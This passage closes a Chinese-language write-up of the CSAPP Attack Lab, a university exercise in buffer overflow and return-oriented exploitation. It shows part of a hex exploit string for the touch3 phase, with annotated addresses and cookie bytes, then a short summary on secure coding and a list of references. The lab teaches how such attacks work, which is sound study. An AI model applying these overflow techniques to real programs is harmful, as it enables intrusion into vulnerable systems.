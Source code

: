 ```txt
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00			# touch3首地址为0x4018fa
35 39 62 39 39 37 66 61			# cookie字符串地址，用这个地址减去计算偏移的起始地址得到偏移量为72, 即0x48
00 00 00 00 00 00 00 00			
```

此时的栈组织如下：

![AttackLab 图5 栈组织结构](C:\Users\pc\Desktop\图片\AttackLab 图5 栈组织结构.PNG)

### 总结

通过这次实验，初步了解栈和缓冲区溢出的原理，以及安全编码的重要性。

### 参考资料

《深入理解计算机系统 原书第3版》

[CSAPP:Attack lab](https://www.jianshu.com/p/db731ca57342)

[读厚CSAPP III Attack Lab](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)

[良性代码，恶意利用：浅谈 Return-Oriented 攻击](https://blog.csdn.net/sdulibh/article/details/17913815?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param)
